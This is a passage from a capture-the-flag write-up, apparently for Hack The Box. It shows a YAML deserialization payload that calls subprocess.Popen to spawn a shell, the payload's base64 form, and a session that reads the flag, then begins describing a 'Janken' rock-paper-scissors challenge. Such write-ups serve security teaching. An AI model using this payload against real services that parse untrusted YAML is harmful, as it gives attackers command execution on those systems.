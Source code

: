 `ls` is successfully executing! Now to read the flag.

I had some trouble producing a payload that would simply cat the flag.txt file. Presumably, my payload setup was not suitable for a command with several words (cat flag.txt), so to work around this I simply spawned a shell:
```python
!!python/object/apply:subprocess.Popen
- sh
```

```bash
$ cat payload | base64 
ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBzaAo=
```

```bash
<------[TCS]------>
[1] Create config                                                                                                   
[2] Load config                                                                                                     
[3] Exit                                                                                                            
> 2                                                                                                                 
                                                                                                                    
Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBzaAo=                             
** Success **                                                                                                       
Uploading to ship...                                                                                                
                                                                                                                    
<------[TCS]------>                                                                                                 
[1] Create config                                                                                                   
[2] Load config                                                                                                     
[3] Exit                                                                                                            
> cat flag.txt                                                                                                      
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
```

`HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`

### Janken
>As you approach an ancient tomb, you're met with a wise guru who guards its entrance. In order to proceed, he challenges you to a game of Janken, a variation of rock paper scissors with a unique twist. But there's a catch: you must win 100 rounds in a row to pass. Fail to do so, and you'll be denied entry.
__Difficulty: easy__
---
In this challenge we are given a compiled binary called janken. Upon running it, we can view the rules for the game:
```bash
$ ./janken 


                                                                                                                    
                         ▛▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▔▜                                                                         
                         ▌   じ ゃ ん 拳  ▐                                                                         
```